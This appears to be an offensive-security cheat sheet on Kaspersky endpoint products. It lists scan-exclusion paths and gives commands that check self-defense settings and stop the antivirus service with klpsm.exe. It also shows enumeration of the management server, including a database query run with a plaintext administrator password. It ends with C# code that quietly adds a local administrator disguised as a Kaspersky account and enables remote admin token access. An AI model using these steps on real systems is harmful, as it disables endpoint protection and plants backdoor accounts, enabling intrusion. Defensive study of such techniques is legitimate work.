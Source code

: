 ```yaml
---
description: Kaspersky Endpoint Security (KES) / Kaspersky Security Center (KSC) / Kaspersy Internet Security (KIS)
---
```


# KES / KSC / KIS

- [https://api-router.kaspersky-labs.com/downloads/search/v3/b2b](https://api-router.kaspersky-labs.com/downloads/search/v3/b2b?productcode=2911379&sites=https%3A%2F%2Fwww.kaspersky.com)




## KES / KIS

- [https://nasbench.medium.com/lolbined-using-kaspersky-endpoint-security-kes-installer-to-execute-arbitrary-commands-1c999f1b7fea](https://nasbench.medium.com/lolbined-using-kaspersky-endpoint-security-kes-installer-to-execute-arbitrary-commands-1c999f1b7fea)



### Scan Exclusions

Potential scan exclusions:

- `C:\Windows\System32\LogFiles\`
- `C:\Windows\System32\inetsrv\`
- `C:\Windows\ClusterStorage\`
- `C:\ProgramData\Microsoft\Windows\Hyper-V\`



### Stop Service

- [https://www.exploit-db.com/docs/english/40433-deactivating-endpoint-protection-software-in-an-unauthorized-manner-(revisited).pdf](https://www.exploit-db.com/docs/english/40433-deactivating-endpoint-protection-software-in-an-unauthorized-manner-(revisited).pdf)

Check if KES Self-Defense is enabled:

```
PS > (Get-ItemProperty -Path "HKLM:\SOFTWARE\WOW6432Node\KasperskyLab\protected\KES\settings" -Name "EnableSelfProtection").EnableSelfProtection
```

Check if KES external management of system services is allowed:

```
PS > (Get-ItemProperty -Path "HKLM:\SOFTWARE\WOW6432Node\KasperskyLab\protected\KES\settings" -Name "AllowServiceStop").AllowServiceStop
```

If `EnableSelfProtection` is **0** and `AllowServiceStop` is **1**, then it's possible [to manipulates KES application from the command line](https://support.kaspersky.com/KESWin/11.1.0/en-us/178723.htm) via [klpsm.exe](https://www.pconlife.com/viewfileinfo/klpsm-exe/):

```
Cmd > cd "C:\Program Files (x86)\Kaspersky Lab\Kaspersky Endpoint Security for Windows"
Cmd > klpsm.exe stop_avp_service
Cmd > klpsm.exe start_avp_service
```



### Remove Product

- [https://support.kaspersky.com/common/uninstall/1464](https://support.kaspersky.com/common/uninstall/1464)
- [https://support.kaspersky.com/14674](https://support.kaspersky.com/14674)




## KSC

- [https://www.kaspersky.ru/small-to-medium-business-security/downloads/endpoint](https://www.kaspersky.ru/small-to-medium-business-security/downloads/endpoint)
- [https://support.kaspersky.com/KSC/13/ru-RU/158830.htm](https://support.kaspersky.com/KSC/13/ru-RU/158830.htm)
- [https://habr.com/ru/companies/bastion/articles/598769/](https://habr.com/ru/companies/bastion/articles/598769/)

| Key                      | Value                                    |
|--------------------------|------------------------------------------|
| Default MMC Port         | 13291                                    |
| Remote Installation Path | `%WINDIR%\Temp\KAV Remote Installations` |



### Enumeration

```
Cmd > netstat -ano | findstr 13000
Cmd > "C:\Program Files (x86)\Kaspersky Lab\NetworkAgent\klnagchk.exe"
Cmd > reg query HKLM\SOFTWARE\WOW6432Node\KasperskyLab\Components\34\1103\1.0.0.0\Statistics\AVState /s /v Protection_AdmServer
PS > Get-ItemProperty HKLM:\SOFTWARE\WOW6432Node\KasperskyLab\Components\34\1103\1.0.0.0\Statistics\AVState -Name Protection_AdmServer
Cmd > C:\PROGRA~2\KASPER~1\KASPER~1\klsql2.exe -i query.sql -u administrator -p "Passw0rd!" -o query.xml
```



### KlScSvc in LSA

- [https://telegra.ph/Crackmapexec-beryot-sluzhebnyj-parol-konsoli-Kaspersky-Security-Center-12-08](https://telegra.ph/Crackmapexec-beryot-sluzhebnyj-parol-konsoli-Kaspersky-Security-Center-12-08)



### Add Local Admin

{% code title="KSCTools.cs" %}
```csharp
using System;
using System.DirectoryServices;
using Microsoft.Win32;

namespace KSCTools
{
    class AccountManagement
    {
        static void Main()
        {
            try
            {
                DirectoryEntry AD = new DirectoryEntry("WinNT://" + Environment.MachineName + ",computer");
                DirectoryEntry NewUser = AD.Children.Add("KLAdmin", "user");
                NewUser.Invoke("SetPassword", new object[] { "Passw0rd!" });
                NewUser.Invoke("Put", new object[] { "Description", "Kaspersky Local Administrator" });
                NewUser.CommitChanges();
                DirectoryEntry grp = AD.Children.Find("Administrators", "group");
                grp?.Invoke("Add", new object[] { NewUser.Path.ToString() });

                using (RegistryKey key = Registry.LocalMachine.CreateSubKey(@"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"))
                {
                    key?.SetValue("LocalAccountTokenFilterPolicy", 1, RegistryValueKind.DWord);
                }
            }
            catch { }
        }
    }
}
```
{% endcode %}
